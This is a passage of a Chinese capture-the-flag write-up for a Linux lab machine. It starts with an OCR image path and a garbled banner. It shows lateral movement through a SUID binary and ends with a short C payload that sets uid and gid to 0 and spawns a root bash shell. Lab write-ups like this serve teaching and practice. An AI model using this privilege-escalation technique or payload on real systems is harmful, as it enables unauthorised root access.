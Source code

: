 ```shell
                                     ** *,



HMVbisoususeryay
```

### 环境探测

根据探测，`suidy` 用户的用户目录可以访问

```shell
(remote) theuser@suidyrevenge:/home/suidy$ ls -lah
total 52K
drwxrwxr-x 3 suidy suidy   4.0K Oct  2  2020 .
drwxr-xr-x 8 root  root    4.0K Oct  1  2020 ..
-rw------- 1 suidy suidy     25 Oct  1  2020 .bash_history
-rwxrwx--- 1 suidy suidy    220 Oct  1  2020 .bash_logout
-rwxrwx--- 1 suidy suidy   3.5K Oct  1  2020 .bashrc
drwxr-xr-x 3 suidy suidy   4.0K Oct  1  2020 .local
-rw-r----- 1 suidy suidy    262 Oct  1  2020 note.txt
-rwxrwx--- 1 suidy suidy    807 Oct  1  2020 .profile
-rwsrws--- 1 root  theuser  17K Oct  2  2020 suidyyyyy
```

其中，`suidyyyyy` 具有 suid，并且当前用户具有执行的权限，直接执行即可横向

```shell
(remote) theuser@suidyrevenge:/home/suidy$ ./suidyyyyy
suidy@suidyrevenge:/home/suidy$ whoami
suidy
```

## User - suidy

### 题目提示

```plaintext title="/home/suidy/note.txt"
I know that theuser is not here anymore but suidyyyyy is now more secure!
root runs the script as in the past that always gives SUID to suidyyyyy binary
but this time also check the size of the file.
WE DONT WANT MORE "theuser" HERE!.
WE ARE SECURE NOW.

-suidy
```

### 编写恶意程序

```c
#include<stdlib.h>

int main(){
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 0;
}
```
